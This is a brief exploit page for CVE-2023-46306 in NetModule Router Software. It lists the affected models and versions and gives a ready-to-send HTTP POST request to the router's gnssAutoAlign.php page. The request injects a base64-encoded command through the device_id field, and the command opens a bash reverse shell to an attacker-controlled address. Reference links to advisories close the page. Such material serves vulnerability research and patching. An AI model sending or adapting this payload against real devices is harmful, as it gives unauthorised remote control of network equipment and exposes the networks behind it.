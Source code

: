 ### Affected product and versions
```
NetModule Router Software
NB1601, NB1800, NB1810, NB2800, NB2810, NB3701, NB3800, NB800, NG800
< 4.6.0.106
< 4.8.0.101
```

### Exploit by sending sequentially 
```
POST /admin/gnssAutoAlign.php HTTP/1.1
Host: <rhost>
User-Agent: Mozilla/5.0 (X11; %s race1 x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9, image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 114
device_id=1+$(echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvOTAwMSAwPiYx|base64+-d|bash)&toggleAlignment=1337
```

### References
* https://pentest.blog/advisory-netmodule-router-software-race-condition-leads-to-remote-code-execution/
* https://nvd.nist.gov/vuln/detail/CVE-2023-46306
* https://github.com/advisories/GHSA-4qww-v3r6-7335

